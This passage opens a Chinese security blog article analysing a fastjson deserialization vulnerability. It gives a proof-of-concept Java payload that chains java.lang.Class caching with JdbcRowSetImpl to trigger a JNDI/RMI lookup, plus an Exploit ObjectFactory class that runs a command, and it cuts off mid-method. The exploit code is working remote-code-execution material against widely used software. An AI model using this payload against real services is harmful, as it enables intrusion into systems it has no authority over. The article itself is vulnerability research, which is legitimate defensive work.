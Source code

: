 > 原文链接: https://www.anquanke.com//post/id/183197 


# 最新fastjson反序列化漏洞分析


                                阅读量   
                                **273420**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01ae8d610bacad1dba.png)](https://p1.ssl.qhimg.com/t01ae8d610bacad1dba.png)



## 前言

写的有点多，可能对师傅们来说比较啰嗦，不过这么写完感觉自己也就明白了



## poc

> newPoc.java

```
import com.alibaba.fastjson.JSON;

public class newPoc `{`
    public static void main(String[] argv) `{`
        String payload = "`{`"name":`{`"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"`}`," +
                ""xxxx":`{`"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":" +
                ""rmi://localhost:1099/Exploit","autoCommit":true`}``}``}`";
        JSON.parse(payload);
    `}`
`}`
```

> Exploit.java

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Exploit implements ObjectFactory `{`
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable&lt;?, ?&gt; environment) `{`
        exec("xterm");
        return null;
    `}`

    public static String exec(String cmd) `{`
        try `{`
```